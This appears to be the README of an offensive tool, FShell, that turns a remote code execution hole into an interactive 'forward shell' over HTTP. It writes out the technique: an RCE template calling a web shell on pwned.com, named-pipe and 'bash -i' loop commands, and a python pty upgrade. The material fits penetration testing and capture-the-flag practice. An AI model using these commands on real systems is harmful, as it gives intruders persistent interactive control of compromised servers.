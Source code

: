 # **FShell**

## Description
FShell is my implementation of a Forward Shell. It's designed to get an interactive tty using remote code execution through a stageless protocol (eg HTTP).

## Why I should use a forward shell ?
- The remote server is not able to reach internet, no reverse shell possibility
- I don't want the server initiate new outgoing connection or expose new service (only use vulnerable exposed service)

However, it also have disadvantage
- Many requests per second (in case of a web server, it will generate many access log)
- Not fully interactive: no auto-completion (this theoretically could be implemented but that will generate huge amount of requests), remember that your input is send to the python script then to the remote server.

The requests frequency can be changed modifying ```BEACONING_DELAY``` variable.

## Requirements
### On attacker machine

Python3 & lib:
- requests
- termcolor

### On the target
Only Linux is supported at this time and required basic commands/tools on the remote system:
- python2 (and pty module)
- bash
- mkfifo
- cat
- tail
- ps
- grep
- awk
- kill


## Usage
Modify the ```WRITABLE_FOLDER``` variable if /tmp is not available for write or if you have something better (prefer /dev/shm)

You **must** redefine ```execute``` function to perform your remote code execution:

```python
def execute(cmd, verbose=False, timeout=None):
    """
    :cmd      Raw shell command to execute on the remote system
    :timetout MANDATORY: Used to kill blocking execution loop (used in named pipe creation).
              If you cannot, put named pipe creation in separated thread
    :verbose  Print full cmd executed on the remote system (Debug mode)
    """
    # Put your RCE code here
    r = requests.get('http://pwned.com/rce.php?cmd=%s' % (b64encode(cmd)), timeout=timeout)
    return r.text.strip() # You can apply formating if the output is not only the output of command
```
### Commands
- **help_shell**: Print commands help
- **get_sessid**: Print current session id on the remote server
- **upgrade_shell**: Start remote pty using python to create interactive shell
- **exit_shell**: Clear 'properly' the remote shell. If you're connected with another user than the first, please exit normally before.

### Demo

![FShell Demo](https://github.com/Hypnoze57/FShell/blob/master/demo.gif)


## How it's working
The concepts are pretty simple.

First you need to create a named pipe on the remote system.
It will be used to send command to the shell <br>
```mkfifo /tmp/input```.

Then, create a bash loop that reading the named pipe constantly and send it to an interactive bash process that sending stdin & stderr to an output file. <br>
```tail -f /tmp/input | /bin/bash -i > /tmp/output 2>&1 ```

[Reading named pipe] -> [Execute named pipe content] -> [Send stdin/stderr into output file] -> [Go to reading named pipe because of '-f' tail option]

Next part is to start a python thread that performing ```cat /tmp/output``` regularly to get the shell output. <br/>
If the thread find data, it will clear the output file content using ```echo '' > /tmp/output```
<br>*Tips: In order to avoid error logging for a non-existing file, the script execute 'id' command before starting the 'GetOutput' thread to create the output file.*

One of the last step is to get user input from our python script and send it to the named pipe<br>```echo USERCMD > /tmp/input```

And the **final trick** to back a remote interactive **tty** is the 'upgrade_shell' command.
This command perform a ```python -c 'import pty;pty.spawn("/bin/bash")'``` (and some export and aliases) to spawn a real tty for the current process (used in named pipe loop)


## Thanks

Thanks to [@ippsec](https://twitter.com/ippsec), I didn't knowing that something like this was possible before watching this videos [Stratosphere HTB Write Up](https://www.youtube.com/watch?v=uMwcJQcUnmY) !

Hope you enjoy it!
